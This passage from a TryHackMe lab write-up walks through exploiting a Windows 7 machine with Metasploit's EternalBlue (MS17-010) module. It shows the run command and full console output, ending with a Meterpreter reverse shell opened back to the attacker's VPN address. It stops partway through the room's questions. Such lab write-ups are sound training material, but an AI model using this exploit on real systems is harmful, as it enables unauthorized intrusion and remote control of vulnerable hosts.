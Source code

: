 Note that here I have set `LHOST` to `tun0`, which is my VPN network device connected to the Try Hack Me network. This instead of filling in the ip address. Both methods are allowed. But setting up this variable is mandatory otherwise the exploit will not work. This isn't mentioned in the walk through video and seems like this was not required back then.

Finally, execute the exploit with the `run`  or `exploit` command. `exploit` is an alias to `run`:

```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.8.208.30:4444 
[*] 10.10.19.224:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.19.224:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.19.224:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.19.224:445 - The target is vulnerable.
[*] 10.10.19.224:445 - Connecting to target for exploitation.
[+] 10.10.19.224:445 - Connection established for exploitation.
[+] 10.10.19.224:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.19.224:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.19.224:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.19.224:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.19.224:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.19.224:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.19.224:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.19.224:445 - Sending all but last fragment of exploit packet
[*] 10.10.19.224:445 - Starting non-paged pool grooming
[+] 10.10.19.224:445 - Sending SMBv2 buffers
[+] 10.10.19.224:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.19.224:445 - Sending final SMBv2 buffers.
[*] 10.10.19.224:445 - Sending last fragment of exploit packet!
[*] 10.10.19.224:445 - Receiving response from exploit packet
[+] 10.10.19.224:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.19.224:445 - Sending egg to corrupted connection.
[*] 10.10.19.224:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.19.224
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.19.224:49283) at 2021-08-11 03:23:11 +0200
[+] 10.10.19.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.19.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.19.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### Answer the questions below

Start [Metasploit](https://tryhackme.com/room/rpmetasploit)

    No answer needed

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
